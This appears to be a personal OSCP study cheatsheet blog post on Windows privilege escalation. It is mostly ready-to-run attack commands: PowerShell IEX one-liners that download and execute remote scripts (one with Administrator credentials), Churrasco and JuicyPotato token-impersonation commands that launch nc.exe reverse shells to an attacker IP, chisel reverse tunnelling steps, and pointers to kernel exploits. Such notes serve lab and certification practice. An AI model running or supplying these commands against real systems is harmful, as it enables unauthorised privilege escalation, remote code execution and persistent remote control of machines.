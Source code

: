 ```yaml
---
title: Windows Privilege Escalation
author: linatl
category: "OSCP"
date: "2021-03-13 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Tricks to improve a crappy shell
```
rlwrap
> rlwrap -r nc -nvlp 443
```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
> [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
> [Environment]::Is64BitProcess

alternative to check arch in ps environment:
> [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```


/// To be tested:
###### Start Process with PowerShell
```
How to use powershell to pop a second shell
> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.1.1/file.ps1')"


Starting a shell as Administrator (when the permissions are right)

First: make a variable of the password.
Because windows doesnt like it when you pass passwords in plain text to a command.
> $SecPass = ConvertTo-SecureString "password" -AsPlainText -Force
> $cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)

Pop the shell:
> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.1.1/file.ps1')" -Credential $cred
```


###### Token Kidnapping on Windows Server 2003 / 2008 with Churrasco

```
If you are Network Service or Local Service and SeImpersonatePrivilege is Enabled, this will probably work.

> git clone https://github.com/Re4son/Churrasco
after uploading the exe:

Execute Command
> churrasco.exe -d "whoami"
Using nc.exe to start a reverse shell connection
> churrasco.exe -d "c:\Users\username\Documents\nc.exe -e cmd.exe 192.168.1.1 443"
```

###### Potato attacks
```
If both SeChangeNotifyPrivilege and SeImpersonatePrivilege are enabled

Hot Potato
https://foxglovesecurity.com/2016/01/16/hot-potato/

Rotten Potato
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato

Juicy Potato
https://github.com/ohpe/juicy-potato
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato
x86 variant:
https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2

Example juicy potato:

List of CLSID's:
http://ohpe.it/juicy-potato/CLSID/

On attacker system:
> nc -nvlp 80
On target system:
First upload nc.exe & JuicyPotato.exe, and place it in current dir
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -t *
Or using a different CLSID:
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -t *
```

###### RunAs
###### Registry Tricks
###### AlwaysInstallElevated
###### Autorun
###### Service Permissions
###### Unquoted Path
###### DLL Hijacking


###### Port Forwarding
```

https://github.com/jpillora/chisel
1 upload chisel to the box

2 start chisel on kali
$ ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse

3 run chisel on the target
$ .\c.exe client 10.10.14.20:8000 R:8888:localhost:8888

4 see if the connection is made
port 8888 on kali should be listening now:
$ netstat -ntlp

5 do stuff from kali on address 127.0.0.1 port 8888
```


###### Schtasks
```
> schtasks /query /fo LIST /v
> tasklist /SVC
```


###### Windows (Kernel) Exploits
```
MS10-059 (SecWiki)
MS11-046 (SecWiki)
MS16-032 (Use the one from Empire)
MS15-051 (SecWiki)
```

###### Kernel Exploits ~ Resources
```
Seclists
https://github.com/SecWiki/windows-kernel-exploits

Empire
https://github.com/EmpireProject/Empire/tree/master/data/module_source
```
